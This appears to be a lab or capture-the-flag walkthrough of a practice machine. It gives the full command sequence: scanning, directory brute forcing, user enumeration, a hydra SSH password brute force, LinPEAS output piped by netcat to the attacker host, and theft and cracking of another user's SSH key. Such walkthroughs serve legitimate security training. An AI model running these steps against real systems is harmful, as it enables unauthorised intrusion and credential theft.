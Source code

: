 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

Title: `Web App Test`

Target IP: `10.10.0.193`

Host IP: `10.10.14.20`

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

> - `22/tcp` OpenSSH
> - `80/tcp` Apache
> - `138/tcp` Samba
> - `445/tcp` Samba
> - `8009/tcp` Apache
> - `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> `<!-- Check our dev note section if you need to know what to work on. -->`

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> `/development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]`

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> `href="dev.txt"`

> `href="j.txt"`

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> `S-1-22-1-1000 Unix User\kay (Local User)`

> `S-1-22-1-1001 Unix User\jan (Local User)`

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> `[22][ssh] host: 10.10.0.193   login: jan   password: armando`

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> `══╣ Possible private SSH keys were found!`
> `/home/kay/.ssh/id_rsa`

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `beeswax (kay_id_rsa)`

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```
